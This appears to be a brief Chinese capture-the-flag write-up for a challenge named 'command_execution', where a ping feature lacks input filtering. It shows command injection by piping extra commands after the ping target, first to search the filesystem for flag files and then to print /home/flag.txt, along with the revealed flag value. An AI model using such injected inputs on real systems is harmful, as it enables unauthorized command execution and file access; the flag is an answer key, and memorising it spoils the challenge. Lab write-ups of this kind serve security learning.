

## command_execution

小宁写了个ping功能,但没有写waf,X老师告诉她这是非常危险的，你知道为什么吗。

----

### 命令拼接


```shell
ping -c 3 www.baidu.com | find / -name "flag*"

/home/flag.txt
/sys/devices/platform/serial8250/tty/ttyS15/flags
/sys/devices/platform/serial8250/tty/ttyS6/flags
/sys/devices/platform/serial8250/tty/ttyS23/flags
/sys/devices/platform/serial8250/tty/ttyS13/flags
/sys/devices/platform/serial8250/tty/ttyS31/flags
/sys/devices/platform/serial8250/tty/ttyS4/flags
/sys/devices/platform/serial8250/tty/ttyS21/flags
/sys/devices/platform/serial8250/tty/ttyS11/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS28/flags
/sys/devices/platform/serial8250/tty/ttyS0/flags
```

```shell
ping -c 3 www.baidu.com | cat /home/flag.txt

cyberpeace{8373655cc6766371e27c8c1a26fab57c}
```
